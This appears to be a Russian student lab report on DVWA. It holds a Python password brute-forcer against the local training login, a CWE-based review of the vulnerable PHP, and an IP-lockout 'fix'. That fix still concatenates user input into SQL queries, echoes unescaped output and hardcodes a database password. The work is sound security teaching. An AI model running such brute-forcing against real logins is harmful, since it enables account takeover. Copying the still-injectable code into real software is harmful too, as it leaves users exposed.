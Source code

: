 # Практическая работа №3
<h3> Задание №1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)</h3>

<p>Выполнено на языке программирования Python с использованием библиотеки requests. В качестве источника паролей был выбран готовый словарь с наиболее часто встречающимися паролями(common-passwords.txt). Разработанный алгоритм читает все пароли из файла и каждый из них поочередно подставляет в тело HTTP GET запроса. При успешном входе пользователь видит надпись "Welcome to the password protected area". Она и является определяющим фактором для разработанного решения</p>

    passwords = []

    with open("common-passwords.txt", "r", encoding='utf-8') as file:
        for password in file.readlines():
            if '\n' in password:
                passwords.append(password[:-1])
                continue

            passwords.append(password)
        
    cookies = {'PHPSESSID':'dha64hulcvldr08koooh0a8iqt', 'security': 'low'}

    for password in passwords:
        response = requests.get(url=f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={password}&Login=Login#', cookies=cookies)
        if 'Welcome to the password protected area' in response.text:
            print(f'Password: {password}')
            break

<h3>Задание №2. Проанализировать код и сделать кодревью, указав слабые места. 
Слабость уязвимого кода необходимо указать с использованием метрики 
CWE (база данных cwe.mitre.org)</h3>

    <?php
        if( isset( $_GET[ 'Login' ] ) ) {
        // Get username
        $user = $_GET[ 'username' ];
        // Get password
        $pass = $_GET[ 'password' ];
        $pass = md5( $pass );
        // Check the database
        $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . 
            ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = 
            mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
        if( $result && mysqli_num_rows( $result ) == 1 ) {
                // Get users details
                $row    = mysqli_fetch_assoc( $result );
                $avatar = $row["avatar"];
                // Login successful
                $html .= "<p>Welcome to the password protected area {$user}</p>";
                $html .= "<img src=\"{$avatar}\" />";
        }
        else {
                // Login failed
                $html .= "<pre><br />Username and/or password incorrect.</pre>";
        }
        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }?>

<ol>
    <li>CWE-89. Возможно использование SQL инъекции при определении запроса $query. Как вариант решения проблемы - использование параметризированных запросов</li>
    <li>CWE-79. Не защищенный вывод. В выражениях вида $html .= "какой-то текст и разметка..." возникает уязвимость к XSS атакам - злоумыщленник может внедрить свой JavaScript код</li>
    <li>CWE-522. Пароли хранятся в недостаточно надежном виде - используется md5.</li>
    <li>CWE-20. Отсутствие валидации ввода. Необходимо обрабатывать введенные данные перед их использованием</li>
    <li>CWE-307. Отсутствие защиты от неудачных попыток входа. Предоставляет возможность, например, перебора паролей</li>
	<li>CWE-759. Хранение паролей без соли.  Лучше для каждого пользователя определять уникальное значение(соль), добавлять его к паролю и хэшировать. Таким образом, даже для пользователей с одинаковыми паролями хэши будут разными</li>
	<li>CWE-807. Использование ненадежных входных данных при принятии решения о безопасности</li>

</ol>

<h3>Задание №3. Разработать свою систему авторизации на любом языке, 
исключающий взможность подбора паролей разработнным 
переборщиком паролей в задании 1. Возможно исправление авторизации 
из dvwa.local. Требование - Система авторизации должна использовать запросы GET с 
параметрами, аналогичными из задания bruteforce dvwa
</h3>
<p>Для решения данной задачи в базе данных создана таблица "visits", содержащая в себе количество попыток входа для конкретного IP адреса, исходя из соображений, что после трех неуспешных попыток входа IP адрес не имеет доступ к ресурсу. При успешном же входе количество попыток обнуляется(если оно не привысило 3шт.), в противном же случае увеличивается</p>
<p>Для начала создадим соответствующую таблицу</p>

<pre>CREATE TABLE visits(
    id INT AUTO_INCREMENT,
    ip VARCHAR(16),
    count INT,
    PRIMARY KEY(id)
)
</pre>
<p>Теперь реализуем блокировку</p>
<p>
	
	if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];

	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );

	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	
	$ip = $_SERVER["REMOTE_ADDR"];
	
	$visits_q = "SELECT count FROM visits WHERE ip = '$ip';";
	$connection = new mysqli("localhost", "dvwa", "p@ssw0rd", "dvwa");
	
	$visits_count = 0;

	if($qres = $connection->query($visits_q)){
		$rows_count = $qres->num_rows;
		if ($rows_count == 0) {
			$insert_q = "INSERT INTO visits(ip, count) VALUES('$ip', 1);";
			$connection->query($insert_q);
			$visits_count = 1;
		}
		else {
			foreach($qres as $row){
				$visits_count = $row["count"];
				break;
			}
		}
	}

	if ($visits_count > 3) {
		$html .= "<p>Too many requests!</p>";
		//die();
	}
	else{
		if( $result && mysqli_num_rows( $result ) == 1 ) {
			// Get users details
			$row    = mysqli_fetch_assoc( $result );
			$avatar = $row["avatar"];
	
			// Login successful
			$html .= "<p>Welcome to the password protected area {$user}</p>";
			$html .= "<img src=\"{$avatar}\" />";
			$visits_count = 0;
		}
		else {
			//Login failed
			$html .= "<pre><br />Username and/or password incorrect.</pre>";
			$visits_count = $visits_count + 1;
		}
	
		
		$update_q = "UPDATE visits SET count = $visits_count WHERE ip = '$ip'";
		$connection->query($update_q);
	
		((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
	
	}

	}

</p>
![Alt text](https://github.com/fokypoky/BruteforceDVWA/blob/main/analyze-result.png?raw=true)
